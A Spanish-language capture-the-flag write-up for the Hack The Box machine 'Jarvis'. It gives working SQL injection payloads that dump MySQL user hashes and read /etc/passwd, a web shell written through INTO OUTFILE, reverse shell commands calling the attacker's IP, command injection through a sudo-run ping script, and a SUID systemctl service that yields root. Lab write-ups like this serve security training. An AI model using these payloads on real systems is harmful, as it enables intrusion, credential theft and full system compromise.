# Jarvis

```bash
nmap -p- -sCV --min-rate=5000 -n 10.129.16.156 -oN nmapScan.txt
```



```bash
whatweb http://10.129.16.156
```



- Apache 2.4.25 (Debian)
- ironwaf -> waf es cortafuegos (web application firewall)

- Encontramos que la web es vulnerable a sqli en */room.php?cod=x*

- Empezamos a enumerar para ver cuántos parámetros que hay
```bash
http://10.129.16.156/room.php?cod=4 order by 8-- -
```


No se muestra nada, se rompe la query

```bash
http://10.129.16.156/room.php?cod=4 order by 7-- -
```


Obtenemos resultado por lo que hay 7 columnas

- comenzamos a enumerar info
```sql
8 union select 1,database(),3,4,5,6,7
```

->



```sql
8 union select 1,2,3,4,group_concat(schema_name),6,7 from information_schema.schemata
```

hotel,information_schema,mysql,performance_schema

```sql
8 union select 1,2,3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema = 'hotel'
```

room

```sql
8 union select 1,2,3,4,group_concat(column_name),6,7 from information_schema.columns where table_schema = 'hotel' and table_name = 'room'
```

cod,name,price,descrip,star,image,mini
No vemos ninguna columna/tabla donde podamos obtener info de usuarios
- Tiraremos por la database mysql para intentar enumerar usuarios

- *database mysql*
```sql
8 union select 1,2,3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema = 'mysql'
```

column_stats,columns_priv,db,event,func,general_log,gtid_slave_pos,help_category,help_keyword,help_relation,help_topic,host,index_stats,innodb_index_stats,innodb_table_stats,plugin,proc,procs_priv,proxies_priv,roles_mapping,servers,slow_log,table_stats,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,*user*

```sql
8 union select 1,2,3,4,group_concat(column_name),6,7 from information_schema.columns where table_schema = 'mysql' and table_name = 'user'
```

Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string,password_expired,is_role,default_role,max_statement_time
- Hay muchas columnas pero nos interesarán *User,Password* y una columna que no se suele usar pero que a partir de cierta versión de sql se guardan credenciales es **authentication_string**

```sql
8 union select 1,2,3,4,group_concat(User,0x3a,Password,0x3a,authentication_string),6,7 from mysql.user
```

DBadmin:*\*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0:*
- En hashes.com -> **imissyou**

- Vamos a enumerar usuarios
```sql
8 union select 1,2,3,4,load_file('/etc/passwd'),6,7
```

- Si no nos dejara leer "/etc/passwd" podríamos pasar el string "/etc/passwd" a hexadecimal y meterlo en los paréntesis directamente (sin "")
```bash
echo "/etc/passwd" | tr -d '\n' \ xxd -ps
```

tr -d: tr significa translate (transformar caracteres) y -d delete, por lo que quita los saltos de línea
xxd -ps: xxd convierte datos a hexadecimal, y ps lo muestra en plain style, hexadecimal puro



Vemos dos usuarios -> *root* y *pepper*

- Intentamos exfiltrar algún archivo sensible
- /proc/net/tcp -> puertos de la máquina
- /proc/net/fib_trie -> ver ip e info de contenedores
- /home/pepper/.ssh/id_rsa
No podemos verlos

- Vamos a intentar subir un archivo mediante la sqli
Probamos a subir un test.txt
```sql
8 union select 1,2,3,4,Esto es un archivo test,6,7 into outfile '/var/www/html/test.txt'
```

Ahora si accedemos a ese recurso *http;://10.129.229.137/test.txt*


Conseguimos subir un archivo.

- Subiremos un php (la web interpreta php) para obtener RCE


- no pongo el comando porque por lo que se ve peta obsidian

- Obtenemos RCE
```bash
http://10.129.229.137/shell.php?cmd=whoami
```



- Nos lanzaremos una revshell
no nos deja con
```bash
shell.php?cmd=bash -c "bash -i >&/dev/tcp/10.10.16.49/443 0>&1"
```

- Probamos con netcat
```bash
http://10.129.229.137/shell.php?cmd=nc -e /bin/bash 10.10.16.49 443
```



www-data

**ESCALADA**

```bash
sudo -l
```



Se puede ejecutar el script */var/www/Admin-Utilities/simpler.py* como pepper con
```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py
```

sudo ya sabe que tiene que ejecutar *python3* al parecer en la cabecera dentro del script, por lo que no hace falta pasarle la instrución *python3*, de lo contrario nos pedirá la contraseña de *www-data*, ya que *python3* no está en
```bash
sudo -l
```

- Vemos lo que hace el código



Podremos ejecutar un ping hacia nuestra máquina con la opción *-p*
```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```



Vemos que el ping se ejecuta de forma correcta al ponernos a la escucha de trazas icmp por la interfaz *tun0*
```bash
sudo tcpdump -i tun0 icmp -n
```



- Intentaremos inyectar código por la forma en la que se realiza el ping en el script, que es llamando a la ejecución del sistema subsanando algunas posibilidades de inyección
```python
os.system('ping ' + command)
```



Intentaremos ejecutar comandos con
```bash
$()
```

- Si probamos a meter nuestra ip *10.10.16.49* pero en lugar de poner la ip hacemos un
```bash
$(echo 10.10.16.49)
```

Las trazas llegan igualmente, por lo que estamos inyectando código directamente ejecutado por pepper, ya que la ip no viene de meterla nosotros a mano, sino del stdout del comando
```bash
echo 10.10.16.49
```

Si intentamos ejecutar
```bash
$(nc -e /bin/bash 10.10.16.49 443)
```



No nos deja por el carácter *-* que está en el array de *forbidden[]*

- Intentaremos llamar con $() a un script desde el que se ejecute el *nc -e ...*
```bash
cd /tmp
echo 'nc -e /bin/bash 10.10.16.49 443' > reverse.sh
chmod +x reverse.sh
```

Ahora nos ponemos a la escucha con nc en nuestra máquina y ejecutamos de nuevo el script y le pasamos
```bash
$(bash /tmp/reverse.sh)
```

pepper

```bash
find / -perm -4000 2>/dev/null
```



Encontramos *systemctl* que es capaz de arrancar procesos en el sistema con SUID



Podremos ejecutar con pepper *systemct*l a nombre de root

- Crearemos un servicio nuevo y ejecutaremos comandos como root

Nos copiamos el archivo */tmp/reverse.sh* al directorio de pepper
```bash
cp /tmp/reverse.sh privesc.sh
```

Este script será el que será ejecutado por el servicio (el mismo de antes que nos lanza una shell con netcat)



Buscamos cómo buscar un servicio "systemctl file example linux" que sera el archivo que levante el servicio
Crearemos el archivo que levanta el servicio
```bash
nano privesc.service
```

El servicio tendrá dentro un template de servicio pero haciendo referencia a nuestro script *privesc.sh* (hemos añadido *Type=oneshot* para que la ejecución se realice una vez y no lo lance continuamente)

```
[Unit]
Description=Foo

[Service]
Type=oneshot
ExecStart=/home/pepper/privesc/privesc.sh

[Install]
WantedBy=multi-user.target
```

Ahora tendremos que linkear el servicio con el */home/pepper/privesc/privesc.service*
```bash
systemctl link /home/pepper/privesc/privesc.service
```



Nos crea el link hacia la carpeta de procesos */etc/systemd/system*

Nos ponemos a la escucha con nc
Arrancamos el servicio con
```bash
systemctl enable --now /home/pepper/privesc/privesc.service
```



root
